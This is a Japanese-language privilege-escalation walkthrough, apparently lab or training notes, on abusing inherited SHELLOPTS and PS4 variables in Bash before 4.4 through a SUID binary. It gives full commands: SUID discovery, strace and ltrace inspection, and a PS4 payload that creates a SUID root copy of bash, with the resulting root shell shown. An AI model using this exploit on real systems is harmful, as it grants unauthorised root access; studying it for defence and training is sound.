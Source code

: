 Bashにはデバッグモードがあり、-xコマンドラインオプションで有効にするか、SHELLOPTS環境変数を変更することで有効になります。
デフォルトでは、SHELLOPTSは読み取り専用ですが、envコマンドを使用することでSHELLOPTS を設定することができます。
デバッグモードでは、Bash は環境変数 PS4 を使用して、デバッグ文のための特別なプロンプトを表示します。
この変数は、表示されるたびに実行される埋め込みコマンドを含むことができます。
SUID ファイルが Bash 経由で他のプログラムを実行する場合 (例.system()を使うなどして）、これらの環境変数を継承することができます。   
SUID ファイルが実行されている場合、このコマンドはファイル所有者の特権で実行されます。  
Bashのバージョン4.4以降では、PS4環境変数は、root で実行するシェルには継承されません。   
# Privilege Escalation
1. ターゲット上のSUID/SGIDファイルを検索します。
```
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;
2> /dev/null
...
-rwsr-sr-x 1 root staff 6899 May 14 2017 /usr/local/bin/suid-env2
...
```
suid-env2ファイルは、rootユーザの権限で実行する必要があります。   
2. SUIDファイルに対して文字列を実行します。  
```
$ strings /usr/local/bin/suid-env2
...
/usr/sbin/service apache2 start
```
このファイルは、/usr/sbin/service プログラムを実行しようとしている可能性があります。   
3. straceで確認することができます。   
```
$ strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep apache
[pid 16729] execve("/bin/sh", ["sh", "-c", "/usr/sbin/service apache2
start"]...
```
4. オプションで、ltraceで検証することも可能です。
```
$ ltrace /usr/local/bin/suid-env 2>&1 | grep service
system("service apache2 start"
```
これにより、サービスプログラムの実行にシステム機能が使用されていることがわかります。
5. /bin/shのバージョンを調べる
```
/bin/sh --version
```
version4.1.5なので脆弱性があることがわかる
6. bashのデバッグを有効にし、PS4変数にペイロードを代入して、SUIDファイルを実行します。
```
$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2
```
7. tmp/rootbash ファイルに -p コマンドラインオプションを付けて実行すると、ルートシェルになります
```
$ /tmp/rootbash -p
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root)
groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(pl
ugdev),1000(user)
```
